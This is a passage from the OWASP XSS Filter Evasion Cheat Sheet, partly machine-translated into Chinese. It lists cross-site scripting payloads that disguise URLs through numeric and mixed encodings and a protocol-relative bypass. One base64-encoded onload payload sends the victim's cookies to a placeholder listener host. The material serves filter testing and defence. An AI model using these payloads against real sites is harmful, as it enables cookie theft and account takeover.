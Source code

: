 ```
<A HREF="http://1113982867/">XSS</A>
```

#### Hex Encoding[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#hex-encoding)

The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex quotet is not required):

```
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
```

#### Octal Encoding[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#octal-encoding)

再次填充是允许的，尽管您必须将其保持在每个类 4 个以上的字符总数之上 - 如在 A 类、B 类等中......：

```
<A HREF="http://0102.0146.0007.00000223/">XSS</A>
```

#### Base64 编码[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#base64-encoding)

<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">

#### 混合编码[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#mixed-encoding)

让我们混合和匹配基本编码并添加一些制表符和换行符 - 为什么浏览器允许这样做，我永远不会知道）。制表符和换行符仅在使用引号封装时才起作用：

```
<A HREF="h 
tt  p://6   6.000146.0x7.147/">XSS</A>
```

#### 协议解析绕过[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#protocol-resolution-bypass)

`//`转换为`http://`可以节省更多字节。当空间也是一个问题时，这真的很方便（少两个字符可以走很长的路）并且可以轻松绕过正则表达式`(ht|f)tp(s)?://`（感谢 Ozh 提供了这一部分）。您也可以将 更改`//`为`\\\\`。但是，您确实需要保留斜线，否则这将被解释为相对路径 URL。

```
<A HREF="//www.google.com/">XSS</A>
```

#### 谷歌“感觉幸运”第 1 部分[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#google-feeling-lucky-part-1)

Firefox 使用 Google 的“感觉幸运”功能将用户重定向到您输入的任何关键字。因此，如果您的可利用页面是某个随机关键字的顶部（如您在此处看到的），您可以使用该功能对抗任何 Firefox 用户。这使用 Firefox 的`keyword:`协议。例如，您可以使用以下内容连接多个关键字`keyword:XSS+RSnake`。从 2.0 开始，这不再适用于 Firefox。
